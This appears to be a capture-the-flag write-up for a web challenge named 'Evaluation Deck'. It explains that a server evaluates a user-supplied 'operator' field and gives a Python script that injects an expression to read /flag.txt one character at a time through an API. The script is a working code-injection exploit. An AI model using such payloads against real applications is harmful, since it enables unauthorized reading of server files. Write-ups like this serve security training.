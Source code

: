 # Evaluation Deck

![web](https://img.shields.io/badge/category-web-brightgreen) <br>
![difficulty](https://img.shields.io/badge/difficulty-easy-green) <br>
![solvetime](https://img.shields.io/badge/solved-durring%20event-green)

## Description

> A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

Provided files are:
- [All files](web_evaluation_deck)

## Solving process

Upon inspecting the source, we can se the user input for operator is evaluated and then summed up with other two arguments. We can exfiltrate flag letter by letter from the host machine:

```python
import requests

URL = "insert URL"
s = requests.Session()

r = s.get(URL)
def get_char(i):
    payload = {
        "current_health": "0",
        "attack_power": "0",
        "operator": "+ ord(open('/flag.txt', 'r').read()[{}]) +".format(i)
    }
    r=s.post(URL + "/api/get_health", json=payload)
    return r.json()["message"]
i = 0
while True:
    try:
        c=get_char(i)
        print(chr(c), end="")
        i +=1
    except:
        break
```

**Flag:** **
